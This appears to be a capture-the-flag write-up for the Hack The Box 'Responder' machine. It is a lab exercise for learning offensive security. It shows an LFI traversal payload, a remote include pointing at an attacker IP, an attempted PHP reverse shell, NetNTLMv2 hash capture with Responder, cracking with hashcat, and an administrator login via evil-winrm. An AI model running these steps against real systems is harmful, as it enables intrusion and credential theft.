

# Responder

<figure><figcaption></figcaption></figure>

## I. Enumeration & Information gathering:

### Nmap:

```bash
└──╼ $nmap 10.129.95.234 -sV -sC -oA nmap-def-initial-scan
```

<figure><figcaption><p>Default scan results</p></figcaption></figure>

So, we have port 80 open, an Apache server on maybe a windows machine which we will confirm in the next steps.(They already told us that it's a Windows machine but where's the fun?) \
We should run an Nmap scan on the rest of the ports because by default Nmap only scans the top 1000 ports, so we might miss a LOT if we only take this initial scan as a final result.&#x20;

```bash
└──╼ $nmap 10.129.95.234 -p- -oA nmap-full-port-scan
```

We let that run in the background and enumerate further the port 80 to see what we have.

\
Upon visiting the webpage, we're being redirected to a domain called _**unika.htb**_ and of course an error pops out. In order for our browser to resolve this hostname into an IP address, we will need to add the machine's IP address  to _**/etc/hosts**_ directory because :&#x20;

> Browsers typically rely on the operating system's DNS resolver to resolve domain names to IP addresses. The operating system, in turn, may use a combination of DNS servers configured by the user or by default settings provided by the network.
>
> When a browser needs to resolve a domain name, it sends a DNS query to the operating system, which then sends the query to a DNS server. This DNS server may be a public DNS resolver, such as Google DNS (8.8.8.8) or Cloudflare DNS (1.1.1.1), or it could be a DNS server provided by the user's internet service provider.

I personally use this command:

```bash
└──╼ $ sudo sh -c "echo '10.129.95.234 unika.htb' >> /etc/hosts"
```

And finally here's what we find:

<figure><figcaption></figcaption></figure>

Usually at this stage, we use [wappalyzer](https://www.wappalyzer.com/) to give us some more information about the infrastructure of the webpage (Programming languages used, OS..etc) :

<figure><figcaption><p>wappalyzer's output</p></figcaption></figure>

Now that we confirmed that it's a windows machine let's move on.

After poking around the page, we stumbled upon something!  \
In the process of changing the language of the page we have found a GET parameter named _**page**_

<figure><figcaption><p>A found 'page' parameter</p></figcaption></figure>

This page parameter seems like it's loading a file named german.html this could be something!\
But before diving in, we should enumerate more and then follow each lead!

Now let's Fuzz!

### Directory fuzzing:

Next, we should look for any hidden directories and webpages, and ffuf is our way to go. For this we'll need a wordlist (directory-list-2.3-small.txt in our case). In order to find this file in your local machine you could use :&#x20;

```bash
└──╼ $sudo find / -name directory* 2>/dev/null | grep SecLists
```

```bash
└──╼ $ffuf -w /home/si7emed/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://unika.htb/FUZZ
```

<figure><figcaption></figcaption></figure>

Nothing in here, sadly!

Let's have a look at the tasks, maybe we're overlooking something. \
First three tasks, we already have the answer.

.Let's look at the **4th task:**

> Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

What the hell  is a LFI vulnerability?

> LFI stands for Local File Inclusion. It's a vulnerability that occurs when a web application allows a user to include local files on the server. This vulnerability can be exploited by an attacker to disclose sensitive information, execute code, or gain unauthorized access to the server.\
> LFI vulnerabilities often arise due to improper input validation or insufficient sanitization of user-controlled input. They are commonly found in web applications that dynamically include files based on user input, such as include or require statements in PHP or file path parameters in URLs.

Now that we have an idea of what a LFI vulnerability is, let's choose one of the given options:

* french.html : It is indeed loading a file but there isn't any kind of attempt to access an arbitrary location on the server.
* //10.10.14.6/somefile : Looks promising but it is calling the 10.10.14.6 IP address which means that this isn't at all Local.
* **../../../../../../../../windows/system32/drivers/etc/hosts** : Juicy stuff! This is an attempt to traverse  directories  using "../../../ " and then access a file located at an absolute path on the server's filesystem ("/windows/system32/drivers/etc/hosts"). This is the right answer!
* minikatz.exe : Same reason as the first option. Not because it's an executable means that there's something fishy about It.

**5th task:**

> Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

As already explained in the 4th task, **//10.10.14.6/somefile** is the right answer since it is, as the name says, literally including a file from a remote machine.

We now know that we should look if this website is indeed vulnerable to LFI and RFI.

## II. Vulnerability Assessment:

For LFI, let's try the example given in the task 4:

<figure><figcaption><p>LFI Detected.</p></figcaption></figure>

This server is indeed vulnerable to LFI since it allowed us to access a file on the system without checking for our input! as already mentioned, this happens due to misuse of some PHP (in our case) function such as include(), include\_once(), require()..etc If the user's input is directly processed without proper checking, LFI and RFI vulnerabilities arise.

Here, our first intuition, is getting clear-text credentials, finding an admin's password magically through reading a password file on the system since we an read anything from server, and more ideally, directly include the /root/root.txt. And that's what we're going to do us newbies , maybe it is possible ? We never know.\
Through a google search we find this wordlist containing possible Windows paths. Upon trying A LOT of possible password location; ERRORS, ERRORS ERRORS EVERYWHERE.

<figure><figcaption><p>Hopeless LFI attempt.</p></figcaption></figure>

This is absolutely not the way to go, let's move on to trying RFI.

Intuitively, we would like to have a reverse shell through including a PHP shell from our machine and then proceed to escalate our privileges, let's go that way. First, we prepare a PHP script as explained in [Setting up Shells](https://app.gitbook.com/s/2x96g0dngcMbgd6cnWUj/introduction-and-getting-started/shells-and-ssh/setting-up-shells "mention"), and host a simple HTTP server using the following command:

```bash
└──╼ $python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

<figure><figcaption><p>A failed RFI vulnerability exploitation attempt.</p></figcaption></figure>

We're stuck, officially, so let's return to the tasks to guide us!

Task6:

> What does NTLM stand for?

A simple Google search : New technology LAN Management.&#x20;

> NTLM, which stands for NT LAN Manager, is a suite of Microsoft security protocols used for authentication, integrity, and confidentiality within Windows networks. Originally introduced in Windows NT 3.1, NTLM has undergone several iterations, with NTLMv2 being the most recent version.

Here's a breakdown of its components and how it works:



Here, as someone with with a first encounter with RFI, LFI and NTLM, we encounter a new technique we will use to get the much wanted password.

## III. Exploitation:

Here's the idea behind this box:\
As we found a LFI vulnerability, we were unable to exploit an RFI one, because by default, PHP is configured to NOT include remote HTTP or FTP  URLs. But, PHP won't prevent any SMB URLs ! So if only we can host a malicious SMB server and make a connection with the website's server we would find a way in! A simple google search "tool for malicious SMB server" gives us this [Responder tool](https://github.com/SpiderLabs/Responder) which is already asked for in the **7th Task!** We're on the right path.


So now,  we have to host a malicious SMB server and make the target's server try to connect to us (Using the fact that PHP won't prevent an SMB connection attempt ), and then capture the username and password hash of the user trying to connect to us.&#x20;

This is surely new to us, but at this point in our pentesting journey we should know that we will always stumble upon new techniques and ideas we wouldn't think of as beginners. But there is a first time for everything, even for capturing a NetNTLMv2 administrator's password hash through a tool called Responder, executed through an RFI, right? Let's go:

```bash
# Checking for the Responder installation:
└──╼ $ which responder
    # Nothing
└──╼ $ sudo find / -name responder* 2>/dev/null
/usr/share/responder
```

We can't execute the Responder.py file from any given directory except /usr/share/responder. But there's always a way: we should add this line **`export PATH="$PATH:/usr/share/responder"`** to the end of  \~/.bashrc (or its equivalent)

We can also make it more efficient by executing the tool by writing only ''responder'' not ''Responder.py'' by creating a symbolic link this way:

```bash
└──╼ $ sudo ln -s /usr/share/responder/Responder.py /usr/local/bin/responder
```

<figure><figcaption><p>The tool is ready.</p></figcaption></figure>

We can use this command to see if the SMB server hosting option is set :&#x20;

```bash
└──╼ $sudo find /usr/share/responder -name *conf 2>/dev/null
/usr/share/responder/Responder.conf
└──╼ $cat /usr/share/responder/Responder.conf
[Responder Core]

; Servers to start
SQL = On
SMB = On
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
...
```

Let's run the SMB server:

```bash
└──╼ $sudo responder -I tun0
```

<figure><figcaption><p>NetNTLMv2 hash capture</p></figcaption></figure>

We indeed captured the administrator's password's NetNTLMv2 hash, now with not much information about the password policy for the Windows Target users we can only try to crack it with dictionary attacks using a tool like Hashcat or JohnTheRipper. I personally prefer Hashcat in these situations, so we'll do both because the task is about JohnTheRipper.

After installation of both the tools and putting the hash captured in a text file, let's crack it using the rockyou.txt wordlist:

```bash
└──╼ $ john --format=netntlmv2 hash.txt
```

```bash
└──╼ $ hashid hash.txt 
--File 'hash.txt'--
Analyzing 'Administrator::RESPONDER:8792230463254b5a:6AE869E9E29E832A9F506477350AA268:0101000000000000004597FCA7A7DA01A784927090B3D28C0000000002000800430054005000570001001E00570049004E002D00590046004E004A00590058003300380048004400440004003400570049004E002D00590046004E004A0059005800330038004800440044002E0043005400500057002E004C004F00430041004C000300140043005400500057002E004C004F00430041004C000500140043005400500057002E004C004F00430041004C0007000800004597FCA7A7DA0106000400020000000800300030000000000000000100000000200000B462A9D0691B994F3E5F19B07AC89187EAE57A94A68F60542EDB4589226E717A0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00340036000000000000000000'
[+] NetNTLMv2 
--End of file 'hash.txt'-- 
└──╼ $hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 
```

<figure><figcaption></figcaption></figure>

**Administrator:badminton**

**So, how and where to connect to using these credentials?**&#x20;

Remember the full ports scan in Nmap we let run in the background? Here's what it gave us:

<figure><figcaption><p>Win RM open Port.</p></figcaption></figure>

The 5985 port is for Win Rm which is a management protocol used by Windows operating systems to remotely manage and execute commands on a Windows-based machine. Exactly what we need!&#x20;

For this purpose we'll be using Evil-WinRM.

> Evil-WinRM is a tool used for Windows Remote Management (WinRM) exploitation. It's a command-line tool that allows penetration testers and red teamers to exploit Windows machines via WinRM in a more efficient and effective manner.

After proper installation from the [official repo](https://github.com/Hackplayers/evil-winrm), let's connect to the server with the found credentials:

```bash
└──╼ $ evil-winrm  -i 10.129.36.242 -u Administrator -p 'badminton'
```

<figure><figcaption></figcaption></figure>


<mark style="color:green;">We successfully accessed the machine as the Administrator!</mark>


After moving around a bit we found the flag in the following directory:

<figure><figcaption></figcaption></figure>

